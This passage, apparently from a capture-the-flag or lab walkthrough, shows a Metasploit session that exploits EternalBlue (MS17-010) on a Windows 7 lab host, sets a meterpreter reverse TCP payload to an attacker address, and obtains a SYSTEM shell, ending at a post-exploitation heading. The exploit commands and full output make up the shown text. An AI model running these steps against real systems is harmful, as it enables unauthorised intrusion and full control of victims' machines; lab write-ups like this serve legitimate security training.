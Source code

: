 ```bash
[-] Unknown command: rhosts.
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.2.27.38
lhost => 10.2.27.38
msf5 exploit(windows/smb/ms17_010_eternalblue) > set lport 1337
lport => 1337
msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.2.27.38:1337 
[*] 10.10.81.233:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.81.233:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.81.233:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.81.233:445 - Connecting to target for exploitation.
[+] 10.10.81.233:445 - Connection established for exploitation.
[+] 10.10.81.233:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.81.233:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.81.233:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.81.233:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.81.233:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.81.233:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.81.233:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.81.233:445 - Sending all but last fragment of exploit packet
[*] 10.10.81.233:445 - Starting non-paged pool grooming
[+] 10.10.81.233:445 - Sending SMBv2 buffers
[+] 10.10.81.233:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.81.233:445 - Sending final SMBv2 buffers.
[*] 10.10.81.233:445 - Sending last fragment of exploit packet!
[*] 10.10.81.233:445 - Receiving response from exploit packet
[+] 10.10.81.233:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.81.233:445 - Sending egg to corrupted connection.
[*] 10.10.81.233:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.81.233
[*] Meterpreter session 1 opened (10.2.27.38:1337 -> 10.10.81.233:49171) at 2020-07-10 19:56:00 -0600
[+] 10.10.81.233:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.81.233:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.81.233:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > sysinfo
Computer        : JON-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
## Post Exploitation/Privilege Escalation:
